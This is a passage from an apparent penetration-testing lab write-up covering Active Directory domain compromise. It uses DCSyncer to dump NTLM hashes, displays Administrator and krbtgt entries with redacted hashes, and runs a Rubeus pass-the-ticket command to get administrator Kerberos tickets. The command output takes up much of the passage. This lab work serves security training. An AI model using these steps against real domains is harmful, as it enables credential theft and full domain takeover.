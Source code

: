 Now that we have inject the CORPDc user ticket in our current session, we can proceed to perform a [DcSync attack](https://www.thehacker.recipes/a-d/movement/credentials/dumping/dcsync) to try to dump NTLM hash for domain users. Without using Mimikatz, I found this useful tool [DCSyncer](https://github.com/notsoshant/DCSyncer/releases/tag/v1.0).
The tool will dump hashes for all users, single user hash dump is not supported, so I saved the output into a file:

	DCSyncer-x64.exe > dump-hash.txt
 
We found two juicy hash for users: administrator

	Object RDN           : Administrator
	SAM Username         : Administrator
	User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
	Object Security ID   : S-1-5-21-170228521-1485475711-3199862024-500
	Object Relative ID   : 500
	
	Credentials:
	  Hash NTLM: zzzzzzzzzzzzzzzzzzzzzzzzzzz
and krbtgt

	Object RDN           : krbtgt
	SAM Username         : krbtgt
	User Account Control : 00010202 ( ACCOUNTDISABLE NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
	Object Security ID   : S-1-5-21-170228521-1485475711-3199862024-502
	Object Relative ID   : 502
	
	Credentials:
	  Hash NTLM: aaaaaaaaaaaaaaaaaaaaaaaaaaa

The last one could be used to perform a <b>golden ticket attack</b>.

### Compromise corpdc

Now we can ask a TGT ticket for the Administrator user and inject it directly into the current session:

	Rubeus.exe asktgt /user:administrator /rc4:zzzzzzzzzzzzzzzzzzzzzzzzzzz /ptt
	Ticket successfully imported!

	  ServiceName              :  krbtgt/corp.thereserve.loc
	  ServiceRealm             :  CORP.THERESERVE.LOC
	  UserName                 :  administrator
	  UserRealm                :  CORP.THERESERVE.LOC
	  StartTime                :  4/18/2024 1:59:04 PM
	  EndTime                  :  4/18/2024 11:59:04 PM

	klist

	Current LogonId is 0:0x2902b8
	
	Cached Tickets: (1)
	
	#0>     Client: administrator @ CORP.THERESERVE.LOC
	        Server: krbtgt/corp.thereserve.loc @ CORP.THERESERVE.LOC
	        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
	        Start Time: 4/18/2024 13:59:04 (local)
	        End Time:   4/18/2024 23:59:04 (local)
	        Renew Time: 4/25/2024 13:59:04 (local)
	        Session Key Type: RSADSI RC4-HMAC(NT)
	        Cache Flags: 0x1 -> PRIMARY
	        Kdc Called:
		